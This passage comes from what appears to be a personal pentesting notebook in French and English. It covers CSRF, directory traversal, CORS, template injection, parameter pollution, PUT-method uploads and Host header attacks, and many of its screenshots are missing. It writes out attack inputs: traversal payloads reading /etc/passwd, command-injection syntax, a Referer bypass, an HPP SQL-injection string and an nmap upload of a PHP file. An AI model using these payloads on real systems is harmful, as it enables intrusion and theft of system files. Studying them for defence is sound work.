   <td><strong>“.`[CMD]`.”</strong>
   </td>
   <td><strong>Perl context</strong>
   </td>
  </tr>
  <tr>
   <td><strong>$([CMD])</strong>
   </td>
   <td><strong>Linux system  context</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


**-------------------------------------------------------------------**


* Cross-site request forgery (CSRF)


* 
Definiton
**Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform.**


<p id="gdcalert89" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image89.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert90">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert90" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image90.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert91">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Preventing


<p id="gdcalert91" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image91.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert92">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert92" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image92.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert93">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert93" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image93.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert94">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert94" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image94.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert95">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Quelques tactiques pour se protéger contre CSRF:**


* **Utiliser l'entête Referer or Origin pour examiner la provenance d’une requête (pour vérifier par exemple si une requête de changement de mot passe provient bien de la page web auquel on accède pour changer de mot de passe). Cette méthode est bypassable.**


<p id="gdcalert95" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image95.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert96">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert96" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image96.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert97">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**On peut utiliser la fonction javascript history.pushState() ( _method to add a state to the browser's session history stack._ ) pour modifier le Referer et concaténer un domaine autorisé : history.pushState("", "", "/?[DOMAINE AUTORISÉ]").**


* **Utiliser demande de confirmation par une pop-up, écriture d’un mot de passe, ou un captcha pour confirmer l’action demandée.**
* **Modify the name of the parameters of the POST or GET request**


<p id="gdcalert97" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image97.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert98">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**( Using to tool )**


* Exploit techniques


<p id="gdcalert98" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image98.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert99">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert99" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image99.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert100">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert100" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image100.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert101">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert101" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image101.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert102">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert102" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image102.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert103">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert103" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image103.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert104">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**( Using Json as part of the POST data )**

**enctype : change the Content-type.**

**example :**


<p id="gdcalert104" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image104.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert105">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert105" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image105.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert106">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Business logic vulnerabilities


<p id="gdcalert106" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image106.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert107">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**The associated vulnerabilities are also known as "application logic vulnerabilities" or simply "logic flaws". **


<p id="gdcalert107" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image107.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert108">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert108" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image108.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert109">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert109" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image109.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert110">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert110" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image110.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert111">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Directory traversal


### Some interesting payloads


<table>
  <tr>
   <td><strong>/etc/passwd</strong>
   </td>
   <td><strong>If an application strips or blocks directory traversal sequences from the user-supplied filename, you might be able to use an absolute path from the filesystem root, such as filename=/etc/passwd, to directly reference a file without using any traversal sequences. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>/....//....//....//etc/passwd</strong>
<p>
<strong>/....\/....\/....//etc/passwd ( windows )</strong>
   </td>
   <td><strong>You might be able to use nested traversal sequences, such as ....// or ....\/, which will revert to simple traversal sequences when the inner sequence is stripped. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>..%252f..%252f..%252fetc/passwd</strong>
   </td>
   <td><strong>DoubleURL encode</strong>
   </td>
  </tr>
  <tr>
   <td><strong>/file.php?file=/../../../../../../../pentesterlab.key%00</strong>
   </td>
   <td><strong>Null byte added</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


<p id="gdcalert111" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image111.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert112">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **You can convert the path provided to an absolute path ( without “..” ) and then check.**
* Web cache poisoning


<p id="gdcalert112" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image112.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert113">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert113" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image113.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert114">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**How to prevent from Cache Poisoning?**


* **You must review the caching configuration of your caching server to ensure that when calculating cache keys it is avoiding to make any cache key decisions using untrusted user inputs**


<p id="gdcalert114" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image114.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert115">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert115" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image115.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert116">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Access Control


<p id="gdcalert116" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image116.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert117">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert117" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image117.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert118">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Cross-origin resource sharing (CORS)


* 
Definition
**Cross-origin resource sharing (CORS) is a browser mechanism which enables controlled access to resources located outside of a given domain.**

**It extends and adds flexibility to the same-origin policy (SOP). However, it also provides potential for cross-domain based attacks, if a website's CORS policy is poorly configured and implemented.**


<p id="gdcalert118" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image118.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert119">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert119" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image119.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert120">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert120" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image120.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert121">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert121" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image121.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert122">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert122" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image122.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert123">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert123" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image123.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert124">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**SOP does not prevent sending requests. It does prevent a page from accessing results of cross-domain requests.**


* **Pre-flight checks :**

**The pre-flight check was added to the CORS specification to protect legacy **

**resources from the expanded request options allowed by CORS. **


<p id="gdcalert124" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image124.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert125">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Exploit 

    Voir Section _<span style="text-decoration:underline;">BB - CORS</span>_

* Server-side template injection


* 
Définition
Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side. 

This allows attackers to inject arbitrary template directives in order to manipulate the template engine, often enabling them to take complete control of the server. 

**As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection. **


<p id="gdcalert125" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image125.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert126">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert126" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image126.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert127">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert127" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image127.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert128">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Detect


<p id="gdcalert128" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image128.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert129">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert129" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image129.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert130">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert130" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image130.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert131">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert131" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image131.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert132">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Identify


<p id="gdcalert132" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image132.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert133">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert133" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image133.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert134">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Once you discover a server-side template injection vulnerability, and identify the template engine being used, unless you already know the template engine inside out, reading its documentation is usually the first place to start.**

**While this may not be the most exciting way to spend your time, it is important not to underestimate what a useful source of information the documentation can be. **


* Explore


<p id="gdcalert134" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image134.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert135">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**It is important to note that websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer. You should pay particular attention to these non-standard objects because they are especially likely to contain sensitive information or exploitable methods.**

**The first step is to identify objects and methods to which you have access.**

**You should proceed by reviewing each function for exploitable behavior. By working methodically through this process, you may sometimes be able to construct a complex attack that is even able to exploit more secure targets.**


<p id="gdcalert135" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image135.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert136">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Preventing


<p id="gdcalert136" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image136.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert137">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **You can test SSTI in a webpage like you test an XSS. ( information reflected on the page )**

**-------------------------------------------------------------------**


* HTTP Parameter Pollution

    **HTTP Parameter Pollution (HPP) is a Web attack evasion technique that allows an attacker to craft a HTTP request in order to manipulate or retrieve hidden information. This evasion technique is based on splitting an attack vector between multiple instances of a parameter with the same name.**


    **Since none of the relevant HTTP RFCs define the semantics of HTTP parameter manipulation, each web application delivery platform may deal with it differently. In particular, some environments process such requests by concatenating the values taken from all instances of a parameter name within the request.**


    **Example with SQLI :**


    **	https://www.xxx.com/noticias.php?id=1 union select 1,2 --**


    **	become :**


        **	https://www.xxx.com/noticias.php?id=1&id=*/union/*&id=*/select/*&id=*/1,2+--+**

* **De manière générale, il est important de regarder si on peut découvrir le format du cookie de session pour analyser si on peut en créer un autre valide “à la main” pour se faire passer pour quelqu’un d’autre.**

## 
                Différents Entêtes HTTP


<table>
  <tr>
   <td>
<strong>Content-Length</strong>
   </td>
   <td><strong>Indique la taille en octets (exprimée en base 10) du corps de la réponse envoyée au client.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Content-Type</strong>
   </td>
   <td><strong>Sert à indiquer le type de la ressource ( dans le body )</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Host</strong>
   </td>
   <td><strong>L'en-tête de requête Host spécifie le nom de domaine du serveur (pour de l'hébergement virtuel), et (optionnellement) le numéro du port TCP sur lequel le serveur écoute. </strong>
   </td>
  </tr>
  <tr>
   <td><strong>X-Powered-By</strong>
   </td>
   <td><strong>Specifies the technology (e.g. ASP.NET, PHP, JBoss) supporting the web application (version details are often in X-Runtime, X-Version, or X-AspNet-Version)</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Referer</strong>
   </td>
   <td><strong>This header identifies the address of the webpage which is linked to the resource being requested. By checking the “Referer”, the new webpage can see where the request originated.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>X-Forwarded-For: &lt;client>, &lt;proxy1>, &lt;proxy2></strong>
   </td>
   <td><strong>Le champ d'en-tête HTTP X-Forwarded-For est une méthode courante pour identifier l'adresse IP d'origine d'un client se connectant à un serveur Web via un proxy HTTP ou un autre chose.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Location</strong>
   </td>
   <td><strong>header de redirection</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Vary</strong>
   </td>
   <td><strong>en tête par rapport à la mise en cache</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Connection</strong>
   </td>
   <td><strong>Contrôle la façon dont la connexion reste ouverte ou non après que la transaction courante soit terminée. Si la valeur envoyée est keep-alive, la connexion est persistante et n'est pas fermée.</strong>
<p>
<strong>Close : indique que le client ou que le serveur souhaite fermer la connexion. C'est la valeur par défaut pour les requêtes en HTTP/1.0.</strong>
   </td>
  </tr>
  <tr>
   <td><strong>X-Content-Type-Options</strong>
   </td>
   <td><strong>It’s used to protect against MIME sniffing vulnerabilities.</strong>
<p>
<strong>This header is currently only honoured by Chrome and certain versions of Internet Explorer</strong>
   </td>
  </tr>
  <tr>
   <td><strong>Pragma: no-cache</strong>
   </td>
   <td><strong>Vide le cache du reverse proxy</strong>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
  <tr>
   <td>
   </td>
   <td>
   </td>
  </tr>
</table>


* MIME sniffing
* **MIME sniffing is a technique ( not malicious ) used by some web browsers (primarily Internet Explorer) to examine the content of a particular asset. This is done for the purpose of determining an asset's file format. **

    

<p id="gdcalert137" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image137.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert138">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**In summary, although MIME sniffing can be a useful feature provided by **

**web browsers can also cause security issues.**


* 
Exploiting PUT Method


    * **PUT method was originally intended as one of the HTTP methods used for file management operations. **
* **As this method is used to change or delete the files from the target server’s file system, it often results in arising in various File upload vulnerabilities.**
* **First, we have to determine if the HTTP PUT method is enabled on the server ( by some tools like Nikito …). Note that permissions are likely to be implemented per directory, so recursive checking is required in an attack. Tools such as DAVTest can be used to iteratively check all directories on the server for the PUT method.**


<p id="gdcalert138" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image138.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert139">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* **If this method is enabled, we can try different tools and techniques **
* With Cadaver 


<p id="gdcalert139" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image139.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert140">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* With Nmap


<p id="gdcalert140" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image140.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert141">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**An example with this command :**

**nmap -p 80 192.168.1.103 --script http-put --script-args http-put.url='/dav/nmap.php',http-put.file='/root/Desktop/nmap.php'**


<p id="gdcalert141" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image141.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert142">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* With Burp-Suite


<p id="gdcalert142" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image142.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert143">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert143" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image143.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert144">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert144" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image144.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert145">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Finding PUT Method vuln


<p id="gdcalert145" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image145.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert146">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert146" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image146.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert147">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* HTTP Host header attacks
* Definition


<p id="gdcalert147" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image147.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert148">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**The purpose of the HTTP Host header is to help identify which back-end component the client wants to communicate with. If requests didn't contain Host headers, or if the Host header was malformed in some way, this could lead to issues when routing incoming requests to the intended application.**

**Historically, this ambiguity didn't exist because each IP address would only host content for a single domain. **

**Nowadays, it is common for multiple websites and applications to be accessible at the same IP address.**

**When multiple applications are accessible via the same IP address, this is most commonly a result of one of the following scenarios :**


1. **Virtual Hosting**


<p id="gdcalert148" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image148.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert149">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**2) Routing traffic via an intermediary**

**Another common scenario is when websites are hosted on distinct back-end servers, but all traffic between the client and servers is routed through an intermediary system. **

**This could be a simple load balancer or a reverse proxy server of some kind.**

**In this case, even though the websites are hosted on separate back-end servers, all of their domain names resolve to a single IP address of the intermediary component.**

**How does the HTTP Host header solve this problem?**

**When a browser sends the request, the target URL will resolve to the IP address of a particular server. When this server receives the request, it refers to the Host header to determine the intended back-end and forwards the request accordingly.**


<p id="gdcalert149" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image149.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert150">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


* Prévention


<p id="gdcalert150" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image150.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert151">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


### Test HTTP Host header attack :

**When probing for Host header injection vulnerabilities, the first step is to test what happens when you supply an arbitrary, unrecognized domain name via the Host header.**

**Some intercepting proxies derive the target IP address from the Host header directly, which makes this kind of testing all but impossible; any changes you made to the header would just cause the request to be sent to a completely different IP address.**

**Sometimes, you will still be able to access the target website even when you supply an unexpected Host header. This could be for a number of reasons.**

**For example, servers are sometimes configured with a default or fallback option in case they receive requests for domain names that they don't recognize.**


<p id="gdcalert151" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image151.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert152">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert152" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image152.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert153">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert153" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image153.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert154">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert154" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image154.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert155">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


<p id="gdcalert155" ><span style="color: red; font-weight: bold">>>>>>  gd2md-html alert: inline image link here (to images/image155.png). Store image on your image server and adjust path/filename/extension if necessary. </span><br>(<a href="#">Back to top</a>)(<a href="#gdcalert156">Next alert</a>)<br><span style="color: red; font-weight: bold">>>>>> </span></p>


**Add line wrapping**

**You can also uncover quirky behavior by indenting HTTP headers with a space character :**
